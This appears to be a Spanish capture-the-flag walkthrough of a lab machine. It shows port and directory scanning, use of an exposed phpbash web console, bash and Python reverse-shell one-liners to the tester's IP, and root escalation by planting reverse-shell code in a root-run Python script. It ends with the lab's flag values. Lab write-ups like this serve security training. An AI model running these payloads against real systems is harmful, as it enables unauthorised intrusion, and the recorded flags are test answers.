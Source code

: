 ![[Pasted image 20250705153021.png]]

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[20250705135441.png]]

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[20250705135536.png]]

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[20250705135627.png]]

>revisamos la web pero a primera vista no hay gran cosa 

![[20250705135759.png]]

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[ 20250705135903.png]]

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[ 20250705135956.png]]

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[ 20250705140110.png]]

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[ 20250705140304.png]]

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[ 20250705140342.png]]

>Hemos encontrado la consola interactiva

## phpbash.php

![[ 20250705140421.png]]

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[20250705140711.png]]

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[20250705140758.png]]

vemos que el paquete se tramita

![[20250705140816.png]]

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[20250705141401.png]]

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[20250705141439.png]]

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[20250705145256.png]]

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[20250705145632.png]]

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[20250705145939.png]]

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[20250705150044.png]]

![[20250705150103.png]]

>investigamos el archivo test.py

![[20250705150140.png]]


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[20250705150402.png]]

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[20250705151139.png]]

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[20250705151252.png]]

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e
